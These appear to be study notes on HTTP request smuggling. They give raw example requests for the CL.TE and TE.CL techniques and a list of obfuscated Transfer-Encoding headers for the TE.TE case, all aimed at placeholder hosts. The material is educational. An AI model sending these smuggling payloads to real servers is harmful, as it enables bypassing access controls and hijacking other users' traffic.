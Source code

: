 # Request smuggling 

At this point one should understand what reverse proxy, load balancing is, so basically when the frontend and the backend server processes http requests differently based on the Content-Length and Transfer-Encoding headers http request smuggling arises.

Example of content length

```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```
Example of transfer encoding
```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
q=smuggling
0
```

## CL.TE

Frontend server uses Content-Length and backend server uses Transfer-Encoding essentially request can be smuggled like this

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

# TE.CL

Frontend server uses Transfer-Encoding and backend server uses Content-Length essentially request can be smuggled like this

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

Always remember that a line break is always \r\n ie CRLF


# TE.TE

Both frontend and backend servers use Transfer-Encoding but one of them can be processed not to process the request in such a scenario we can use the following bypasses

Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked

The attack is pretty easy to understand but its pretty hard to find tho...

